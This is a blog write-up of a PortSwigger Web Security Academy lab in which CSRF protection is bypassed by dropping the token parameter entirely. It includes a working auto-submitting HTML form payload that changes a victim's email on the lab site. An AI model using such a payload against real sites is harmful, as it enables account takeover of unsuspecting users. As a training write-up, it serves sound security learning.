 ```yaml
---
layout: post
title:  "CSRF where token validation depends on token being present"
date:   2024-10-01 09:39:54 +0530
categories: [BSCP, CSRF]
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF.
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: `wiener:peter` 

## Solution

Like the First CSRF lab which we solved is **"CSRF where token validation depends on request method"** here also looks the same where we have a **Email update** functionality and if we pass the values correctly, we will be responded with status code of `302`

![]({{ site.baseurl }}/assets/images/csrf-6.png) 

When I change something to the CSRF value like changing the last letter of value or something.. we will get an error like `Invalid CSRF token` 

![]({{ site.baseurl }}/assets/images/csrf-7.png) 

But what happens when we remove the entire token, think of it like `&csrf=guhoud09u` if I change something to their value it is validating based on the token and if the token isn't there it is not going to be validated.. So, I removed `&csrf=` entirely including the parameter and it worked.. request passes through and email got updated.. So it is vulnerable to a CSRF attack 

![]({{ site.baseurl }}/assets/images/csrf-8.png) 

Built a CSRF POC of the request using burpsuite and here is how it looks 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac400ed0306a804803f999e002600ec.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Post the exploit POC into the Exploit server body and then `store -> Deliver the exploit to victim` and which will solve our lab 

![]({{ site.baseurl }}/assets/images/csrf-9.png) 